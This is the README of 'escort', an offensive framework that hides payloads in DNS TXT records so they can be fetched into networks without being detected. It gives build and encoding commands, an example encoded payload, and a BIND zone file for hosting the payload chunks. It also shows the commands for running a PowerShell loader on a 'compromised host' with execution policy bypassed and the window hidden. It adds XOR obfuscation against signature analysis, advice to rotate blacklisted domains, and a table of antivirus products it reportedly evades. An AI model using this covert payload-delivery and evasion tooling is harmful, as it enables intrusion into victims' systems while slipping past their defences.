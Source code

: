 # Escort

![](./escort.jpg)

`escort` is a framework for using DNS a means of smuggling information across network boundaries while evading detection. It provides a loader system for Windows based OS' using PowerShell, as well as a CLI, and Golang library for assisting with the creation of escort'd DNS records. In addition to this a CoreDNS plugin is provided which makes it easy to run a DNS server with built-in escort capabilities.

`escort` relies on a few different factors to accomplish its objects:
* DNS is used on practically every single compute network out there, regardless of whether or not the network is internet connected
* A number of different record types exist, allowing for multiple different methods of disguising data
* If a particular domain name becomes identified as associated with `escort` traffi and blacklisted, get a new domain name and problem solved
* Lets encrypt makes it easy to create valid certificates

In addition to this, when parsing data to be served by `escort` a process known as `trick`'ing, an extremely simple single-byte XOR filter can be used, which helps to slow down the process of signature analysis of escort related traffic.

At the moment the `escort` workflow consists of the following:

* XOR the data to be tricked if needed
* DEFLATE compress the data
* base64 encode the data
* segment data
* create TXT records

`escort` is alpha software intended for research purposes only.

# Usage (out of date)

To showcase usage an example payload is included in `payload.txt`

```shell
$> git clone https://github.com/bonedaddy/escort
$> cd escort
$> go build
$> ./escort --input.file payload.txt compress
0|TJFda/JAEIXv318xF3mbXUyWJH5QDRHa0BahqDRCL8SLmAxma4xiRjSo/71svurVDsOZc56Z1aJUYkbgwRTP5mz9gxFBUOSEOzFFEsE+2iLlYuHP/VLJdHvoCHvwLGx7KBzb0Y1er8tdLacjhjvwoLYUH0hB2WPcXa4LwuVqpak3Bw8sIQb9frd/+3+17u45kSkypknwah/xhWHMKrkBlgFVKT4x21DCOZgZgsWvrhaHFIIH7IHfXBQHnI
1|Y7bDZZ4IXES+BPJm9ZtI9ltuE1nsw2TYoKkWoRzOJ1GG2VqcQLVAnO+MmGG8xOZFZj8CB11NrtXAf0eQA6dIAdzjEX85AS1RyDXo8UhMp9SYoLa6TVaFQilmivCon9BbQHFt9HSchaH8My2rq5Tqt9T095wvjdbf7ET/c5Mv7vNwAA//8
```
You then want to add these values to your DNS host in order. For example in BIND zone files you would add this as follows:

```bind
$ORIGIN example.org.
@	3600 IN	SOA sns.dns.icann.org. noc.dns.icann.org. (
				2017042745 ; serial
				7200       ; refresh (2 hours)
				3600       ; retry (1 hour)
				1209600    ; expire (2 weeks)
				3600       ; minimum (1 hour)
				)

	3600 IN NS a.iana-servers.net.
	3600 IN NS b.iana-servers.net.

test4   IN TXT   "0|TJFda/JAEIXv318xF3mbXUyWJH5QDRHa0BahqDRCL8SLmAxma4xiRjSo/71svurVDsOZc56Z1aJUYkbgwRTP5mz9gxFBUOSEOzFFEsE+2iLlYuHP/VLJdHvoCHvwLGx7KBzb0Y1er8tdLacjhjvwoLYUH0hB2WPcXa4LwuVqpak3Bw8sIQb9frd/+3+17u45kSkypknwah/xhWHMKrkBlgFVKT4x21DCOZgZgsWvrhaHFIIH7IHfXBQHnI
test4   IN TXT   "1|Y7bDZZ4IXES+BPJm9ZtI9ltuE1nsw2TYoKkWoRzOJ1GG2VqcQLVAnO+MmGG8xOZFZj8CB11NrtXAf0eQA6dIAdzjEX85AS1RyDXo8UhMp9SYoLa6TVaFQilmivCon9BbQHFt9HSchaH8My2rq5Tqt9T095wvjdbf7ET/c5Mv7vNwAA//8"
```

On the compromised host you would run `escort.ps1` using one of the following:

```
$> .\escort.ps1 -host_name test4.example.org -dns_server 127.0.0.1
$> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File escort.ps1 -host_name test4.example.org -dns_server 127.0.0.1
```

This will query the host `test4.example.org` for TXT records and use that to construct the payload.

# Caveats

* Due to the usage of DEFLATE the powershell script you are compressing and base64 encoding must be a minimum of 45 characters in length, otherwise you should skip the deflate process as this will just increase the size of your payload, however this will require modifying `escort.ps1` as it expects a base64 encoded DEFLATE compressed payload.
* This may not evade all antiviruses, known AV solutions I have tested against are listed below


| AV Name | Successfully Bypasses |
|---------|-----------------------|
| Avira Free | Yes |
| MalwareBytes Free | Yes |
# Notes

Brotli offers the best compression of data, however it doesn't appear to be widely supported on Windows unless .NET version >=4.5 is installed so it is temporarily not being used.

